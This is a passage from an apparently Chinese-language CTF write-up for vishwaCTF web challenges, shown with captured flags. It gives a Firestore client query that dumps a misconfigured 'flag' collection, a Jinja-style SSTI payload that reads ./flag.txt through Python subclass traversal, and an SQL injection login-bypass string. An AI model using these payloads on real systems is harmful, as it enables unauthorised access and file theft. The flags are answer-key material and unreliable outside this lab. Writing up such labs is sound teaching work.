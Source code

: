 ```
    
    var db=firebase.firestore();
    //猜测字符为flag
    db.collection("flag").get().then((querySnapshot) => {
        querySnapshot.forEach((doc) => {
		console.log(doc.data());
            console.log(doc.data());
        });
    });
</script>
</body>
</html>
```

打开控制台，发现flag

![image-20220320234549827](https://img-blog.csdnimg.cn/img_convert/d195b9a9f206b1747b4efcef348e543b.png)

FLAG：vishwaCTF{c0nfigur3_y0ur_fir3b@s3_rule$}



# Hey Buddy

SSTI，payload

```
{{().__class__.__bases__[0].__subclasses__()[99](path=%27%27,fullname=%27%27).get_data(%27./flag.txt%27)}}
```



# My Useless Website

sql万能密码

![image-20220321155848658](https://img-blog.csdnimg.cn/img_convert/a6e510b831fd53550b1744390959582d.png)

payload

```
1' or 1=1 -- +
```

FLAG：VishwaCTF{I_Kn0w_Y0u_kn0W_t1hs_4lr3ady}



# Stock Bot

html查看到一个url

![image-20220321160315328](https://img-blog.csdnimg.cn/img_convert/14b3c31c78cac824ad6fa2d317188b29.png)
